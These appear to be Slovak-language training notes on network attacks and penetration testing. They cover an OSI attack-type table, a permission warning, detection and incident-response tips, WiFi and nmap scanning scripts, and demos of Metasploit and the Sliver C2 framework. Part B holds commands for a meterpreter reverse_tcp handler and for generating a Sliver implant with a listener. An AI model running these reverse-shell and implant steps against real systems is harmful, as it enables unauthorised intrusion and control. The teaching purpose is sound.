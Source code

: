 
## A.4 - HACKER NA CHRANENEJ SIETI

| **Vrstva**     | **Typ útoku**            | **Popis**                                                                                 |
| -------------- | ------------------------ | ----------------------------------------------------------------------------------------- |
| Fyzická vrstva | Sniffing                 | Odpočúvanie a zachytávanie dát prechádzajúcich sieťovým médiami.                          |
| Dátová linková | Spoofing                 | Falšovanie MAC adries alebo identít za účelom podvrhnutia komunikácie.                    |
| Sieťová        | MITM (Man-in-the-Middle) | Útočník sa vloží do komunikácie medzi dvoma stranami a zachytáva alebo mení dáta.         |
| Transportná    | Recon (Prieskum)         | Získavanie informácií o sieťových službách, otvorených portoch, atď.                      |
| Relačná        | Hijacking (Unos)         | Preberanie kontroly nad reláciou (napr. TCP session hijacking).                           |
| Prezentačná    | Phishing                 | Podvodné získavanie citlivých údajov (hesiel, kreditných kárt) cez falšované komunikácie. |
| Aplikačná      | Exploitácia              | Využívanie zraniteľností v aplikáciach na získanie neoprávneného prístupu.                |


>[!info] PENETRACNE TESTY !!!
PRISTUP DO USERA>ZISKAJ ROOT PRAVA>PREHLADAJ>ZABETONUJ (ABY ZOSTAL TVOJ)

>[! warning] 
>AK CHCETE UROBIŤ PENETRAČNÉ TESTY MUSÍTE MAŤ PISOMNE POVOLENIE SO ŠPECIFIKÁCIOU TESTOV A ČASOVÝM OBDOBÍM KEDY BUDÚ VYKONANÉ!!!



PREVENCIA:

Vsetko co sme sa doposial ucili. 

1. neopravneny scan  - ids, .pcap, logy

2. brute force attack - ids, pcap, logy  KODY /etc/passwd, /etc/shadow

3. neopravnena wifi - aircrack-ng, wifite


#### LINUX PYTHON SKRIPT NA VYPISANIE NAJDENYCH WIFI SIETI
```python
import subprocess

def scan_wifi():
    cmd = "nmcli dev wifi list"
    networks = subprocess.check_output(cmd, shell=True)
    networks = networks.decode("utf-8")
    return networks

print(scan_wifi())
```

SPUSTIME:
``` bash
python3 wifi_scan_linux.py
```

LINUX BASH SKRIPT NA SKENOVANIE WIFI kazdych 300 sekund {5 minut} uklada do suboru
``` bash
#!/bin/bash

while true; do
    nmcli dev wifi list >> wifi_list.txt
    sleep 300
done
```

SPUSTIME NA POZADI:

``` bash
sh ./wifi_scan_bash.sh &
```

>[!info] 
>Uloha spustena na pozadi sa objavi v zozname procesov pomocou prikazov ```ps```, ```top``` alebo pomocou prikazu ```jobs```. <br><br> Do popredia ulohu dostaneme pomocou prikazu ```fg``` a ukoncime `Ctrl-c` alebo ju nechame `Ctrl-z`. <br><br>Ak mame PID mozeme proces ukoncit `kill PID`




4.neopravnene zariadenie na LAN - nmap
``` bash
nmap IP/24 > zoznam_zariadeni.scan  # scanuje subsiet 254 zariadeni
```


5. privilege escalation - logy

>[! warning ]
>HACKER: PRIVILEGE ESCALATION je technika pomocou ktorej utocnik ziskava vyssie PERMISSIONS a tym pristup k sluzbam a suborom. Cielom je samozrejme byt ROOT.  


OPATRENIA:

a. Identifikacia pocitacov kde bol hacker uspesne pripojeny

b. Izolacia siete a analyza aktivit hackera

c. Dezinfekcia a reinstalacia

>[!warning] 
>AK BOL HACKER NA POCITACI A NIE SME SI ISTY CO SA MU PODARILO A CO NIE... AK SA DA. SPRAVTE KOMPLET REINSTALACIU NA NOVY HDD ALEBO SDD {NAJLEPSIE ESTE ZABALENY} !!! <br>
>VYMONTOVANY HACKNUTY DISK ODLOZTE PRE POTREBY POLICIE A FORENZNEHO SKUMANIA !!!  OZNACTE HO AKO JED AJ S ID CISLOM POCITACA :)

### A.5 HACKOVANIE WIFI SIETI PRAKTICKY

RASPBERRY PI CONNECT

[[S7A_Aircrack-ng a wifite2]]

# B. EXPLOITAČNÉ A C2 FRAMEWORKY
## B1. METASPLOIT FRAMEWORK- UKÁŽKA 

METASPLOIT je exploitačný framework obsahujúci tisíce možností ako sa nabúrať do Vašeho počítača. Jeho použitie zvládne aj začiatočník. Vie na diaľku využiť zraniteľnosť Vašeho počítača a získať do neho prístup. Vie vytvárať škodlivé kódy, ktoré na Vašom počítači vytvoria backdoory, reverzné shelly, získajú informácie či prístup do shellu. 

auxiliary = rozne nastroje ako scannery, 
exploit = vyuzitie zranitelnosti systemu na ziskanie kontroly alebo informacii
payload  = skodlivy kod ktory treba spustit u USERA
post- CITTE SA AKO DOMA
NOP = Maskovanie pred AV a IDS


``` metasploit

search windows
use module
show info
set RHOST
CMD: exploit, run, payload

sessions -l
sessions -i <CISLO>
background
```

Priklad 2
``` metasploit
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit

```


## B2 SLIVER (C2 FRAMEWORK)

**Sliver** je moderný, open-source **implant framework** (a **C2 framework**), ktorý je navrhnutý pre **red teaming**, **penetračné testovanie** a **simulácie kybernetických útokov**. Je považovaný za alternatívu k nástrojom ako **Cobalt Strike** alebo **Metasploit**, ale s dôrazom na **stealth**, **flexibilitu** a **moderné techniky obchádzania obranných mechanizmov**.

Instalacia z githubu a kompilacia v go  https://github.com/BishopFox/sliver


Instalacia z githubu a kompilacia v go  https://github.com/BishopFox/sliver

``` bash
cd sliver
./sliver-server

generate --mtls IP_SERVER --os linux --arch amd64 --format elf --http IP_SERVER:PORT --save /home/vboxuser/Downloads

# vygeneruje subor ktory obsahuje skodlivy kod spustitelny na cielovom pocitaci
 
http -l 9000

jobs

sessions

use SESSION_ID


```


